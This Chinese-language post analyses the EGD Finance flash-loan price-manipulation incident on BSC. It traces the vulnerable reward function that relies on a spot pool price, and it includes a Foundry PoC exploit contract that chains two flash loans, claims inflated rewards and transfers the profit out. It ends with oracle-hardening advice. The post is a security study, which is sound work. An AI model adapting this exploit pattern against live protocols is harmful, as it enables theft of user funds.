

# EDGFinance 价格操纵事件分析

通过破解 ethernaut-Dex/DexTwo，我对价格操纵攻击有了初步的理解，为了进一步了解现实生活中价格操纵如何发生的，我将跟随[教程](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/03_write_your_own_poc/)分析 EDGFinance 价格操纵攻击事件，我会将分析思路详细地记录下来，同时使用 foundry 框架进行测试。
大家可以通过阅读我之前写的[破解 Dex](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/ethernaut/solution/22.Dex.md) 的文章来对价格操纵有初步的了解，该文章对价格操纵进行了详细的介绍。

# 闪电贷攻击套路

1. 确认可从 DEX 借走的余额，以及确认受害者合约有足够的余额使攻击者获利。
   - 通过 `balanceOf` 查询余额 --> static call
2. 调用借贷函数，从 DEX 或 Landing Protocol 收到闪电贷款
   - UniswapV2、Pancakeswap：.swap()
   - Balancer：flashLoan()
   - DODO：.flashloan()
   - AAVE：.flashLoan()
3. 攻击者合约包含回调协议
   UniswapV2：.uniswapV2Call()
   - Pancakeswap：.Pancakeswap()
   - Balancer：.receiveFlashLoan()
   - DODO：.DXXFlashLoanCall()
   - AAVE：.executeOperation()
4. 攻击者与受害合约互动，利用漏洞获利。
5. 闪电贷还款：主动还款或者设置 approve，让借贷平台用 transferFrom() 取走借款。

# 攻击过程分析

## 基本信息

- 可参考的链接：[phalcon](https://phalcon.blocksec.com/tx/bsc/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3)
- 攻击基本信息

  ```
  @KeyInfo - Total Lost : ~36,044 US$
  Attack Tx: https://bscscan.com/tx/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3
  Attacker Address(EOA): 0xee0221d76504aec40f63ad7e36855eebf5ea5edd
  Attack Contract Address: 0xc30808d9373093fbfcec9e026457c6a9dab706a7
  Vulnerable Address: 0x34bd6dba456bc31c2b3393e499fa10bed32a9370 (proxy)
  Vulnerable Address: 0x93c175439726797dcee24d08e4ac9164e88e7aee (logic)
  Total Loss: 36,044,121156865234135946 BSC-USD

  @Analysis
  Blocksec : https://twitter.com/BlockSecTeam/status/1556483435388350464
  ```

- 文档中代币数量以 10\*\*18 为单位

## 攻击过程

### 闪电贷攻击套路分析

首先，简单地通过 phalcon 找出闪电贷攻击套路的套路，先查看 `3-> CALL`及以下地调用，具体如下：


1. 攻击合约首先查询 LP 合约存放的 EGD、BSC-USD 数量和代理合约的 EGD 数量，调用 PancakeSwap.swap() 借出 2000 BSC-USD；
2. 再调用 Pancake LP.swap()将 LP 合约所存放的 BSC-USD 几乎全部贷出，我们可以看到 LP 合约存放的 BSC-USD 数量从`424456.224..*10e18`被借出`424456.221..*10e18`；
3. 随后，通过调用`PancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens` 将自己手中的 EDG 全部用来交换 BSC-USD，此时的价格是多少呢，如果按照上图去分析，此时 EDG：BSC-USD = 52,443,151,000 : 3, 直接兑换无法获利，这里有个漏洞，后续会进行详细分析；
4. 归还借款和手续费
5. 套利转账

### `pancakeCall()`分析

现在进入到`4-> CALL`，具体如下：

可以看到 `.pancakeCall()`执行逻辑不通，仔细看可以发现两次调用参数 \_data 是不同的，根据 call 逻辑，不难分析出，\_data = 0x00 时，调用了代理合约的 claimAllReward()函数，
继续深入`claimAllReward()`函数的 call，逻辑合约 EDG_Finance 读取了 0xa361-Cake-LP 的 EGD Token 余额和 USDT 余额，然后将大量的 EGD Token 转出给攻击合约，**这很明显是一个漏洞，EDG_Finance::claimAllReward() 存在漏洞**。

通过在浏览器查询，可知 0xa361-Cake-LP 是 EGD/BSC-USDT 交易对，其实根据 balanceOf 的调用也能推断出: \)

### EDG_Finance.claimAllReward()

[EDG_Finance](https://phalcon.blocksec.com/explorer/tx/bsc/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3?line=16&debugLine=16) 外部调用的函数包括`stake`, `claimAllReward`, `calculateReward`, 不难推断出 EDG_Finance 是个质押合约，存在漏洞的函数`claimAllReward`是提款函数，我们来对该函数进行分析：

```solidity
    function claimAllReward() external {
        require(userInfo[msg.sender].userStakeList.length > 0, 'no stake');
        require(!black[msg.sender],'black');
        uint[] storage list = userInfo[msg.sender].userStakeList;
        uint rew;
        uint outAmount;
        uint range = list.length;
        // 根据stake信息进行提取收益
        for (uint i = 0; i < range; i++) {
            UserSlot storage info = userSlot[msg.sender][list[i - outAmount]];
            require(info.totalQuota != 0, 'wrong index');
            uint quota = (block.timestamp - info.claimTime) * info.rates;
            if (quota >= info.leftQuota) {
                quota = info.leftQuota;
            }
@>          rew += quota * 1e18 / getEGDPrice();
            info.claimTime = block.timestamp;
            info.leftQuota -= quota;
            info.claimedQuota += quota;
            if (info.leftQuota == 0) {
                userInfo[msg.sender].totalAmount -= info.totalQuota;
                delete userSlot[msg.sender][list[i - outAmount]];
                list[i - outAmount] = list[list.length - 1];
                list.pop();
                outAmount ++;
            }
        }
        userInfo[msg.sender].userStakeList = list;
        EGD.transfer(msg.sender, rew);
        userInfo[msg.sender].totalClaimed += rew;
        emit Claim(msg.sender,rew);
    }
```

1. 这个函数逻辑还算简单，首先，确保调用者有质押（stake）的记录，接着检查调用者是否被列为黑名单（blacklist），检查通过后，遍历调用者的质押列表（userStakeList）针对每个质押进行奖励提取。
2. 奖励提取通过计算质押的时间（距离上次提取的时间）、质押的收益率以及剩余的额度，通过 getEGDPrice()
   函数获取当前的 EGD 价格，计算出奖励额度（rew）。
3. 接着，更新质押信息中的相关字段，如果质押的剩余额度为 0，则从用户的总质押金额中扣除该质押金额，并从质押列表中删除该质押记录，循环结束后，更新用户的质押列表。
4. 最后，将计算好的奖励额度（rew）转账给调用者，并更新用户的已提取总额。

```
    uint quota = (block.timestamp - info.claimTime) * info.rates;
            if (quota >= info.leftQuota) {
                quota = info.leftQuota;
            }
@>          rew += quota * 1e18 / getEGDPrice();
```

可以直观地看到，收益 = 质押数量 \* 质押时间 / 当前 EDG 的价格，我们只关注 `getEGDPrice()`函数，看看 EDG 价格如何获取的，

```solidity
    function getEGDPrice() public view returns (uint){
        uint balance1 = EGD.balanceOf(pair);
        uint balance2 = U.balanceOf(pair);
        return (balance2 * 1e18 / balance1);
    }
```

`pair`地址是`0xa361-Cake-LP`，也就是 EGD/BSC-USDT 交易对的池子，价格获取方式是 PY = amountX / amountY, 其中 amountX 是池子中 BSC-USDT 的数量，amountY 是池子中 EGD 的数量，通过`balanceOf`函数获取，这是一个瞬时价格，很容易被影响。

## 攻击者如何进行操控的

`0xa361-Cake-LP`原本的 EGD 价格是 424456 / 52443151 = 0.08098360286432267777777777777 USD

攻击者通过闪电贷从 WBNB/USD 池子借出 2000 USD，这是第一次借款。

接着，通过`pancakeCall` 从 EDG/USD pair 借出 424,456,221,210335857574110 EDG，这是第二次借款。借款金额几乎是池子里所有的 EDG，将 EDG 价格 瞬间拉低（52443151\*10e3 /3），随后通过调用质押协议 EDG_Finance 的`claimAllReward`函数进行收益清算，由于收益是除以 EDG 的瞬时价格，所以最后计算的收益很大很大，几乎卷走了质押协议所有的 EDG，将借出来的 EDG 还给 EDG/USD pair，完成第二次借款。
接着，将获利的 EDG 通过`pancakeRouter`转成 USDT，并归还给 WBNB/USD 池子，完成第一次借款，完成闪电贷。

最后，将收益转给攻击者。

## PoC
```solidity
contract Exploit {
    address recipient = 0xee0221D76504Aec40f63ad7e36855EEbF5eA5EDd;

    function stake() public {
        console.log("Attacker staking 100 USDT...");
        // Set invitor
        IEGD_Finance(EGD_Finance).bond(address(0x659b136c49Da3D9ac48682D02F7BD8806184e218));
        // Stake 100 USDT
        IERC20(usdt).approve(EGD_Finance, 100 ether);
        IEGD_Finance(EGD_Finance).stake(100 ether);
    }

    function harvest() external {
        // uint256 amountUSDTBefore = IERC20(usdt).balanceOf(address(this));
        // 攻击逻辑
        IEGD_Finance(EGD_Finance).calculateAll(address(this));
        // 攻击合约首先查询 LP 合约存放的EGD、BSC-USD数量和代理合约的EGD数量
        uint256 amountEGDCakeLP = IERC20(egd).balanceOf(address(EGD_USDT_LPPool));
        uint256 amountUSDTCakeLP = IERC20(usdt).balanceOf(address(EGD_USDT_LPPool));

        // 向 USDT_WBNB_LPPool 借出2000 BSC-USD
        console.log("Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve");
        USDT_WBNB_LPPool.swap(2000 * 1e18, 0, address(this), "0000");
        console.log("Flashloan[1] payback success");

        // 套利
        uint256 amountUSDTAfter = IERC20(usdt).balanceOf(address(this));
        IERC20(usdt).transfer(recipient, amountUSDTAfter);
    }

    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external {
        if( keccak256(data) == keccak256("0000") ){
            console.log("Flashloan[1] received");
            console.log("Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve");
            uint256 borrow2 = IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) * 9_999_999_925 / 10_000_000_000; // Attacker borrows 99.99999925% USDT of EGD_USDT_LPPool reserve
            EGD_USDT_LPPool.swap(0, borrow2, address(this), "00");
            
            uint256 amountEGD = IERC20(egd).balanceOf(address(this));
            address[] memory path = new address[](2);
            (path[0], path[1]) = (egd,usdt);

            // 将自己手中的EDG全部用来交换BSC-USD
            console.log("Swap the profit...");
            IERC20(egd).approve(address(pancakeRouter), type(uint256).max);
            pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(amountEGD, 1, path, address(this), block.timestamp);
            
            // 还款1
            bool success = IERC20(usdt).transfer(address(USDT_WBNB_LPPool), 2010 ether);
            require(success, "Flashloan[1] payback failed");

        } else if( keccak256(data) == keccak256("00")){
            console.log("Flashloan[2] received");
            emit log_named_decimal_uint(
                "[INFO] EGD/USDT Price after price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18
            );

            // 漏洞
            console.log("Claim all EGD Token reward from EGD Finance contract");
            IEGD_Finance(EGD_Finance).claimAllReward();
             emit log_named_decimal_uint("[INFO] Get reward (EGD token)", IERC20(egd).balanceOf(address(this)), 18);
            
            // 还款2
            uint256 fee = (amount1 * 10000 / 9970) - amount1;
            bool success = IERC20(usdt).transfer(address(EGD_USDT_LPPool), fee + amount1);
            require(success, "Flashloan[2] payback failed");
        }
    }
}

```

完整的 PoC 在这里：https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/Security/PoC/EDGFinance.t.sol

# 安全建议

1. 不要使用流动性差的池子做价格预言机，价格容易随着代币的流动性变化而波动。
2. 使用去中心化的预言机，这种方法更安全性，但存在缺点，如网络拥塞时可能无法及时更新价格，同时需要用户相信你会更新价格。
3. 不要使用瞬时价格，价格预言机操纵是一个时间敏感的操作，攻击者想要降低风险，他们希望在单个交易中完成操纵价格预言机所需的两笔交易（闪电贷价格操控攻击）。加入价格延迟以减少价格瞬时波动。
4. 时间加权平均价格（UniswapV2 TWAP）这种预言机对于大型资金池，在长时间内无链拥塞情况下，高度抵抗预言机操纵攻击。但由于其实现方式的特性，可能无法在市场剧烈波动时快速响应，并且仅适用于链上已有流动性代币。
5. 对 Oracle 预言机返回的结果进行校验，以确保数据的准确性和可靠性。

## 参考链接

1. https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/03_write_your_own_poc/
2. https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/ethernaut/solution/22.Dex.md
